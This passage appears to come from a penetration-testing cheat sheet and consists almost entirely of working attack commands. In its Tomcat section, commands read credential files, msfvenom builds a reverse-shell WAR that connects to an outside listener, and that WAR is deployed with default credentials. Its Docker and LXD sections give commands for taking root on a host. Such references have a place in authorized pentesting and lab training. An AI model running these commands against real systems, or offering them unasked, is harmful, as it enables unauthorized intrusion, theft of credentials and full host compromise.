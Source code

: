 ### Tomcat Manager Exploitation

```bash
# Check if Tomcat Manager is accessible and for default credentials
curl -s http://localhost:8080/manager/html | grep "username"

# Check for credentials in configuration files
cat /etc/tomcat*/tomcat-users.xml
cat /usr/share/tomcat*/conf/tomcat-users.xml

# Deploy a malicious WAR file (if you have credentials)
# Create a JSP shell with msfvenom
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f war > shell.war

# Upload it through curl
curl -v -u 'tomcat:password' -T shell.war 'http://localhost:8080/manager/text/deploy?path=/shell&update=true'

# Access the uploaded shell
curl http://localhost:8080/shell/
```

### Common Group-based Privilege Escalation Paths

#### Docker Group

```bash
# If you're in the docker group
docker run -v /:/mnt -it alpine chroot /mnt sh
# Now you have root access to the host filesystem

# Another method
docker run -it --privileged --pid=host alpine nsenter -t 1 -m -u -n -i sh
```

#### LXD/LXC Group

```bash
# On attacker machine, prepare an image
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine

# Transfer the alpine-*.tar.gz file to the target
# On target, if you're in the lxd group
lxc image import ./alpine-*.tar.gz --alias myimage
lxc init myimage privesc -c security.privileged=true
lxc config device add privesc mydevice disk source=/ path=/mnt/root recursive=true
lxc start privesc
lxc exec privesc /bin/sh
cd /mnt/root
```
